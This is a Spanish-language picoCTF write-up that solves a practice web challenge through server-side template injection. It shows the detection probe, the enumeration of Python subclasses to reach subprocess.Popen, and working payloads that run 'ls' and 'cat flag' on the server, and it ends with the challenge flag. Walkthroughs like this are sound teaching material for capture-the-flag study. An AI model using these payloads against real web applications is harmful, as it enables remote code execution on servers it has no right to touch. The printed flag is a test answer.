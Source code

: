 ## Descripción del reto
I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:63907/)!

## Solución
- Al principio nos mostrara una pagina en la cual si escribimos una palabra, la mostrara en pantalla.
![[Pasted image 20251008212800.png]]

- Primero identificamos con esta operación `{{7*7}}`, si la pagina es vulnerable.
![[Pasted image 20251008212820.png]]
![[Pasted image 20251008212836.png]]

- Sabiendo que es vulnerable, ingresamos lo siguiente `{{ ''.__class__.__mro__[1].__subclasses__() }}` para demostrar que la pagina es vulnerable a SSTI.
![[Pasted image 20251008212912.png]]

- Después buscamos los siguiente `<class 'subprocess.Popen'>`, con este registro, obviamente buscando por cada uno de los chunks de la siguiente manera:
	- `{{ ''.__class__.__mro__[1].__subclasses__()[0:50] }}`
	- `{{ ''.__class__.__mro__[1].__subclasses__()[50:100] }}`
	- `{{ ''.__class__.__mro__[1].__subclasses__()[100:150] }}`


- Luego ingresaremos lo siguiente `{{ ''.__class__.__mro__[1].__subclasses__()[350:400] }}` y este sera el resultado `[<class 'decimal.Decimal'>, <class 'decimal.Context'>, <class 'decimal.SignalDictMixin'>, <class 'decimal.ContextManager'>, <class 'numbers.Number'>, <class 'subprocess.CompletedProcess'>, <class 'subprocess.Popen'>,......]`.
![[Pasted image 20251008212948.png]]

- Una vez verificado eso, ingresaremos lo siguiente `{{ ''.__class__.__mro__[1].__subclasses__()[356]('ls',shell=True,stdout=-1).communicate() }}`, y este sera la salida `# (b'__pycache__\napp.py\nflag\nrequirements.txt\n', None)`.
![[Pasted image 20251008213018.png]]

- Por ultimo ingresaremos esto ultimo para leer la bandera `{{ ''.__class__.__mro__[1].__subclasses__()[356]('cat flag',shell=True,stdout=-1).communicate() }}`.
![[Pasted image 20251008213040.png]]

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_9451989d}

## Notas


## Referencia